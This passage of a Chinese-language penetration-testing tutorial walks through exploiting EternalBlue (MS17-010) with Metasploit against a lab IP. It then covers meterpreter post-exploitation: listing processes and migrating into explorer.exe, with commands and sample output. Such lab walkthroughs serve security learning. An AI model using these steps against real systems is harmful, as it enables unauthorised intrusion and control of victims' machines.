 

### 搜索攻击载荷

```
search ms17_010
```

![image-20220317135133016](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu2a1hocj21xs0cgn0o.jpg)

### 永恒之蓝攻击载荷

```
use 2
```

![image-20220317135219561](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu32l6v1j20n604oaac.jpg)

### 配置的参数

```
options
```

![image-20220317135313535](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu40f11zj21eo0jc77g.jpg)

#### 设置 目标ip

```
set RHOSTS 172.20.10.3
```

### run攻击

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cu6b557sj21bu0u0gtp.jpg)

## 3、meterpreter后渗透

#### 1、ps 查看进程

![image-20220317150505812](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cw6sl5ccj20mh0cktan.jpg)

#### 2、查看当前进程号

```
getpid
```

![image-20220317150602357](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24ely1h0cw7s4exvj205i01jt8j.jpg)

从ps查看的运行进程内找出meterpreter的ipd，可以看到，现在的进程为1104，name为svchost.exe，输入migrate 2844迁移至explorer.exe，因为该进程是一个稳定的应用，然后再使用getpid查看新的进程号

```
meterpreter > migrate 2844
 
[] Migrating from 1104 to 2844...
 
[] Migration completed successfully.
 
meterpreter > getpid
 
Current pid: 2844
 
meterpreter >
```
